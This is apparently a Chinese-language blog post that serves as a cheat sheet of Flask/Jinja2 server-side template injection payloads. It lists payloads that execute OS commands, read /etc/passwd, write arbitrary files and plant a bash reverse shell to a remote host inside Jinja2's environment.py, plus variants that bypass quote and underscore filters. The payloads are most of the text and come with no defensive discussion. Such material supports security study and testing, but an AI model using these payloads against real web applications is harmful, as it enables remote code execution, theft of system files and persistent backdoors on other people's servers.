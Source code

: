 ﻿---
layout:     post
title:      flask-ssti
subtitle:   模板注入
date:       2020-04-15
author:     BY Diego
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - python
    - SSTI
---

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200217115605356.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDU3MTAyOA==,size_16,color_FFFFFF,t_70)


![在这里插入图片描述](https://img-blog.csdnimg.cn/20200217115615227.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDU3MTAyOA==,size_16,color_FFFFFF,t_70)
## payload
**python3**
```python3
#命令执行：
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
#文件操作
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```
**python2**
```python
#注入变量执行命令详见 http://www.freebuf.com/articles/web/98928.html
#读文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
#写文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("") }}
```

**jinja2**
```py
#假设在/usr/lib/python2.7/dist-packages/jinja2/environment.py, 弹一个shell
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/usr/lib/python2.7/dist-packages/jinja2/environment.py').write("\nos.system('bash -i >& /dev/tcp/[IP_ADDR]/[PORT] 0>&1')") }}
```

**绕过**

无单引号
>{{().\_\_class__.\_\_bases__.\_\_getitem__(0).\_\_subclasses__().pop(40)(request.args.path).read()}}&path=/tmp/cmd.py

下划线绕过
>?name={{\'\'[request.args.class][request.args.mro][2][request.args.subclasses]\()\[40]('/etc/passwd').read()}}&class=\_\_class__&mro=\_\_mro__&subclasses=\_\_subclasses__
